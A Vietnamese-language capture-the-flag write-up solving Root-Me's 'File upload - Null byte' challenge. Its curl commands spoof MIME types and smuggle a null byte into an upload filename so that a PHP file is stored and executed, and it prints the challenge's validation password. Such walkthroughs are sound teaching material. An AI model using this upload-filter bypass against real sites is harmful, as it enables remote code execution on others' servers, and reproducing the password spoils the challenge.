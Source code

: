 # File upload - Null byte

## Solution

Như thường lệ, các tiện ích shell rất hữu ích để thực hiện các thử nghiệm, trước tiên cần xác định một số biến môi trường:

```
url="http://challenge.root-me.org//web-serveur/ch22/"
cookies="spip_session=1234_deadbeefdeadbeefdeadbeafdeadbeef"
```

Challenge này cần một cookie khác để hoạt động chính xác, cookie này được gửi khi lần đầu tiên thử truy cập $url:

```
curl -D - -b "$cookies" "$url"
HTTP/1.1 302 Found
Date: Fri, 28 Dec 2012 10:31:02 GMT
Server: Apache
Location: ./
Vary: Accept-Encoding
Content-Length: 0
Content-Type: text/html; charset=utf-8
X-Pad: avoid browser bug
Set-Cookie: rand22=298520383
```

Thêm nó vào biến môi trường cookie: `cookies="$cookies;rand22=298520383"`

Muốn upload PHP code, vì vậy hãy vào phần Upload:

```
curl -b "$cookies" "$url?action=upload&galerie=upload" | tidy -iq -utf8
...
...
  <form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="file"><input type="submit" value=
    "upload">
  </form><br>
  <br>
  <i>NB : only GIF, JPEG or PNG are accepted</i>
...
```

Thử tải lên đoạn mã php đơn giản này (t.php):

```
<?php
echo 'powned';
?>
```

```
curl -s -b "$cookies" -F submit=upload -F "file=@t.php" "${url}?action=upload&galerie=upload"  | tidy -iq -w 0 -utf8
...
  <p style="color: red">Wrong file type !</p>
...
```

Cũng có thể chỉ định loại MIME của file tải lên:

```
curl -s -b "$cookies" -F submit=upload -F "file=@t.php;type=image/jpeg" "${url}?action=upload&galerie=upload"  | tidy -iq -w 0 -utf8
...
  <p style="color: red">Wrong extension !</p>
...
```

Cũng có thể chỉ định tên thay thế cho file tải lên:

```
curl -s -b "$cookies" -F submit=upload -F "file=@t.php;filename=t.jpeg;type=image/jpeg" "${url}?action=upload&galerie=upload"  | tidy -iq -w 0 -utf8
...
  File information&nbsp;:<br>
  <ul>
    <li>Upload: t.jpeg</li>
    <li>Type: image/jpeg</li>
    <li>Size: 0.0263671875 kB</li>
    <li>Stored in: /tmp/phpZK2ji6</li>
  </ul><b>File uploaded</b>.
...
```

Được rồi, nó hoạt động, tuy nhiên tệp này không được PHP xử lý:

```
curl -D - -b "$cookies" "${url}galerie/upload/t.jpeg"
HTTP/1.1 200 OK
Date: Fri, 28 Dec 2012 13:07:03 GMT
Server: Apache
Last-Modified: Fri, 28 Dec 2012 13:05:26 GMT
ETag: "223e3-1b-4d1e9512cdd6f"
Accept-Ranges: bytes
Content-Length: 27
Content-Type: image/jpeg
 
<?php
echo 'powned';
?>
```

Có lẽ vì phần mở rộng tệp không phải là .php, có thể thử khai thác lỗ hổng PHP (cũ): #39863 file_exists() âm thầm cắt bớt sau một byte null (đã sửa từ PHP 5.3.4):

```
curl -s -b "$cookies" -F submit=upload -F "file=@t.php;filename=t.php%00.jpeg;type=image/jpeg" "${url}?action=upload&galerie=upload"  | tidy -iq -w 0 -utf8                                                                                                                                          
...
  File information&nbsp;:<br>
  <ul>
    <li>Upload: t.php%00.jpeg</li>
    <li>Type: image/jpeg</li>
    <li>Size: 0.0263671875 kB</li>
    <li>Stored in: /tmp/phpEAqUcr</li>
  </ul><b>File uploaded</b>.
...
```

Hãy xem những gì có trong phần Upload:

```
curl -v -b "$cookies" "${url}?galerie=upload" | tidy -iq -utf8 -w
...
      <td><a href="galerie/upload/t.php"><img width="64px" height="64px" src="galerie/upload/d.php?preview" alt="d.php"></a></td>
...
```

Điều này có vẻ ổn (phần mở rộng hiện là .php). Và bước cuối cùng để có được flag:

```
curl -b "$cookies" "${url}galerie/upload/t.php"
<html>Well done ! You can validate this challenge with the password : YPNchi2NmTwygr2dgCCF<br/>This file is already deleted.</html>
```
